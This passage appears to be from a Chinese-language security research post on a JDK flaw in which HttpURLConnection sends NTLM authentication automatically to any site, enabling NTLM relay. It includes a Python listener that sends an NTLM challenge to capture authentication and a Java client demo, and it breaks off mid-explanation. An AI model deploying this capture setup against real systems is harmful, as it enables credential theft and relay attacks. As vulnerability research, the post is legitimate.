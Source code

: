 而对于 HTTP/WebDAV 协议发起的 LDAP 请求是不要求强制签名的, 因此也可以实现 NTLM Relay

简单调试一下, 本质是低版本的 JDK 对于 TrustedSites 的判断会一直返回 true, 导致对于任意网站 HttpURLConnection 都会尝试以当前用户的身份发起 NTLM 认证请求

测试 JDK 8u40 以及参考文章中的 JDK 1.5, JDK 8u161 均存在此漏洞, 在 JDK 8u351 中已经修复 (针对 TrustedSites 增加了 AuthMode 字段, 默认为 `DISABLED`), 但不清楚具体是哪一个小版本修复的 (

web 服务

```python
import socket    

s = socket.socket()
s.bind(('0.0.0.0', 8000))
 
s.listen(5)

raw = b'''HTTP/1.1 401 Unauthorized
WWW-Authenticate: NTLM

'''.replace(b'\n',b'\r\n')

while True:
  conn, addr = s.accept()
  rev = conn.recv(1024)
  print(rev.decode())
  conn.send(raw)
  conn.close()
```

demo

```java
package org.example;

import java.net.HttpURLConnection;
import java.net.URL;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) throws Exception{
        URL url = new URL("http://192.168.30.40:8000/");
        HttpURLConnection conn = (HttpURLConnection) url.openConnection();
        conn.setRequestMethod("GET");
        conn.connect();
        Scanner s = new Scanner(conn.getInputStream()).useDelimiter("\\A");
        String result = s.hasNext()? s.next() : "";
        System.out.println(result);
    }
}
```

首先判断返回头 `WWW-Authenticate` 的值是否为 `NTLM`
